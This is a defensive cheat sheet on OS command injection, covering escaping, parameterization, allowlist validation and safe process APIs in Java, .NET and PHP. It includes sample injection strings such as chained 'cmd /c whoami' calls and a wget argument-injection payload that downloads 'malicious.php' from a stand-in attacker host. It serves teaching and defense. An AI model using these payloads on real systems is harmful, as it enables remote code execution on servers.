

OS Command Injection Defense Cheat Sheet¶
Introduction¶
Command injection (or OS Command Injection) is a type of injection where software that constructs a system command using externally influenced input does not correctly neutralize the input from special elements that can modify the initially intended command.
For example, if the supplied value is:
calc
when typed in a Windows command prompt, the application Calculator is displayed.
However, if the supplied value has been tampered with, and now it is:
calc & echo "test"
when executed, it changes the meaning of the initial intended value.
Now, both the Calculator application and the value test are displayed:

The problem is exacerbated if the compromised process does not follow the principle of least privileges and attacker-controlled commands end up running with special system privileges that increase the amount of damage.
Argument Injection¶
Every OS Command Injection is also an Argument Injection. In this type of attacks, user input can be passed as arguments while executing a specific command.
For example, if the user input is passed through an escape function to escape certain characters like &, |, ;, etc.
system("curl " . escape($url));
which will prevent an attacker to run other commands.
However, if the attacker controlled string contains an additional argument of the curl command:
system("curl " . escape("--help"))
Now when the above code is executed, it will show the output of curl --help.
Depending upon the system command used, the impact of an Argument injection attack can range from Information Disclosure to critical Remote Code Execution.
Primary Defenses¶
Defense Option 1: Avoid calling OS commands directly¶
The primary defense is to avoid calling OS commands directly. Built-in library functions are a very good alternative to OS Commands, as they cannot be manipulated to perform tasks other than those it is intended to do.
For example use mkdir() instead of system("mkdir /dir_name").
If there are available libraries or APIs for the language you use, this is the preferred method.
Defense option 2: Escape values added to OS commands specific to each OS¶
For examples, see escapeshellarg() in PHP.
The escapeshellarg() surrounds the user input in single quotes, so if the malformed user input is something like & echo "hello", the final output will be like calc '& echo "hello"' which will be parsed as a single argument to the command calc.
Even though escapeshellarg() prevents OS Command Injection, an attacker can still pass a single argument to the command.
Defense option 3: Parameterization in conjunction with Input Validation¶
If calling a system command that incorporates user-supplied cannot be avoided, the following two layers of defense should be used within software to prevent attacks:
Layer 1¶
Parameterization: If available, use structured mechanisms that automatically enforce the separation between data and command. These mechanisms can help provide the relevant quoting and encoding.
Layer 2¶
Input validation: The values for commands and the relevant arguments should be both validated. There are different degrees of validation for the actual command and its arguments:
- When it comes to the commands used, these must be validated against a list of allowed commands.
- In regards to the arguments used for these commands, they should be validated using the following options:
- Positive or allowlist input validation: Where are the arguments allowed explicitly defined.
- Allowlist Regular Expression: Where a list of good, allowed characters and the maximum length of the string are defined. Ensure that metacharacters like ones specified in
Note Aand whitespaces are not part of the Regular Expression. For example, the following regular expression only allows lowercase letters and numbers and does not contain metacharacters. The length is also being limited to 3-10 characters:^[a-z0-9]{3,10}$
- For commands that support it, use
--to end option parsing. In curl, later arguments are still URL operands:--does not prevent additional transfers. Pass exactly one validated URL as one argument using a process API, and disable curl's URL globbing with--globoff. Do not interpolate an unquoted value into a shell command. Argument separation does not validate the destination; apply SSRF protections.
Note A:
& | ; $ > < ` \ ! ' " ( )
Additional Defenses¶
On top of primary defenses, parameterizations, and input validation, we also recommend adopting all of these additional defenses to provide defense in depth.
These additional defenses are:
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.
- If possible, create isolated accounts with limited privileges that are only used for a single task.
Code examples¶
Java¶
In Java, use ProcessBuilder and the command must be separated from its arguments.
Runtime.exec(String) is deprecated since Java 18 as error-prone: it splits the command String into tokens on whitespace only, so an argument that contains a space is broken into several tokens, which is how untrusted input can add extra arguments (see Argument Injection). Use ProcessBuilder or Runtime.exec(String[]) instead, passing the program and each argument as separate elements. Separating the arguments does not replace validating them.
Note about the behavior of Java's Runtime.exec(String) method:
There are many sites that will tell you that Java's Runtime.exec is exactly the same as C's system function. This is not true. Both allow you to invoke a new program/process.
However, C's system function passes its arguments to the shell (/bin/sh) to be parsed, whereas Runtime.exec(String) tries to split the string into an array of words, then executes the first word in the array with the rest of the words as parameters.
Runtime.exec(String) does NOT try to invoke the shell at any point and does not support shell metacharacters.
The key difference is that much of the functionality provided by the shell that could be used for mischief (chaining commands using &, &&, |, ||, etc, redirecting input and output) would simply end up as a parameter being passed to the first command, likely causing a syntax error or being thrown out as an invalid parameter.
Code to test the note above:
String[] specialChars = new String[]{"&", "&&", "|", "||"};
String payload = "cmd /c whoami";
String cmdTemplate = "java -version %s " + payload;
String cmd;
Process p;
int returnCode;
for (String specialChar : specialChars) {
cmd = String.format(cmdTemplate, specialChar);
System.out.printf("#### TEST CMD: %s\n", cmd);
p = Runtime.getRuntime().exec(cmd);
returnCode = p.waitFor();
System.out.printf("RC : %s\n", returnCode);
System.out.printf("OUT :\n%s\n", IOUtils.toString(p.getInputStream(),
"utf-8"));
System.out.printf("ERROR :\n%s\n", IOUtils.toString(p.getErrorStream(),
"utf-8"));
}
System.out.printf("#### TEST PAYLOAD ONLY: %s\n", payload);
p = Runtime.getRuntime().exec(payload);
returnCode = p.waitFor();
System.out.printf("RC : %s\n", returnCode);
System.out.printf("OUT :\n%s\n", IOUtils.toString(p.getInputStream(),
"utf-8"));
System.out.printf("ERROR :\n%s\n", IOUtils.toString(p.getErrorStream(),
"utf-8"));
Result of the test:
##### TEST CMD: java -version & cmd /c whoami
RC : 0
OUT :
ERROR :
java version "1.8.0_31"
##### TEST CMD: java -version && cmd /c whoami
RC : 0
OUT :
ERROR :
java version "1.8.0_31"
##### TEST CMD: java -version | cmd /c whoami
RC : 0
OUT :
ERROR :
java version "1.8.0_31"
##### TEST CMD: java -version || cmd /c whoami
RC : 0
OUT :
ERROR :
java version "1.8.0_31"
##### TEST PAYLOAD ONLY: cmd /c whoami
RC : 0
OUT :
mydomain\simpleuser
ERROR :
Incorrect usage:
ProcessBuilder b = new ProcessBuilder("C:\\DoStuff.exe -arg1 -arg2");
This creates a builder with one command-list element, not a program followed by two arguments. ProcessBuilder represents the executable and its arguments as a list. The snippet does not start a process or demonstrate shell-command injection.
Correct Usage:
This illustrative example starts a process with a modified working directory and passes the executable and each argument separately. Keep the executable and working directory trusted, and validate any untrusted arguments for the invoked program. Argument separation does not replace argument validation.
ProcessBuilder pb = new ProcessBuilder("TrustedCmd", "TrustedArg1", "TrustedArg2");
Map<String, String> env = pb.environment();
pb.directory(new File("TrustedDir"));
Process p = pb.start();
.NET¶
- If starting a process is necessary, use a fixed, fully qualified executable path in
FileNameand setUseShellExecute = false. This starts the executable directly; it does not validate its arguments. - On modern .NET, add each argument separately with
ProcessStartInfo.ArgumentList. It handles escaping, but untrusted input remains a security risk. Validate each value against the called program's allowed options and operands, such as permitted paths or destinations. - Do not pass untrusted input to command interpreters such as
cmd.exe,powershell.exe, orsh -c. - .NET Framework has no
ArgumentList. Avoid constructingArgumentsfrom untrusted input; if necessary, restrict values to a command-specific allowlist that needs no quoting.Argumentsparsing depends on the target program and platform.
PHP¶
PHP exposes two helper functions when you must pass user input to a shell: escapeshellarg() and escapeshellcmd().
escapeshellarg(): Ensures the user can pass only one parameter to the command, cannot add extra parameters, and cannot execute a different command.
escapeshellcmd(): Ensures the user can execute only the intended command, can pass unlimited parameters, but cannot execute other commands.
It is always preferable to use escapeshellarg() rather than escapeshellcmd() when dealing with user input.
For example, consider this code using wget with escapeshellcmd():
$url = $_GET['url'];
$command = 'wget --directory-prefix=..\temp ' . $url;
system(escapeshellcmd($command));
If the user provides:
http://victim.com/download.php?url=--directory-prefix=. http://attacker.com/malicious.php
escapeshellcmd() will still allow this extra parameter meaning the attacker can override the original --directory-prefix option, save the file in the current directory and then achieve remote command execution on the server.
The safe approach is to use escapeshellarg() so that the URL is treated as a single argument:
$url = $_GET['url'];
$command = 'wget --directory-prefix=..\temp ' . escapeshellarg($url);
system($command);
Now the malicious input becomes:
wget --directory-prefix=..\temp '--directory-prefix=. http://attacker.com/malicious.php'
Here, the second --directory-prefix is part of the quoted string, not a real option, so the attack fails.
In addition, it is good security practice to follow these recommendations:
- Hardcode the command: never allow the user to choose which executable to run.
- Hardcode options: required flags (e.g.,
--directory-prefix) should be in the code, not in user input. - Validate and restrict input as much as possible: apply strict validation rules, whitelists, and format checks to minimize the attack surface.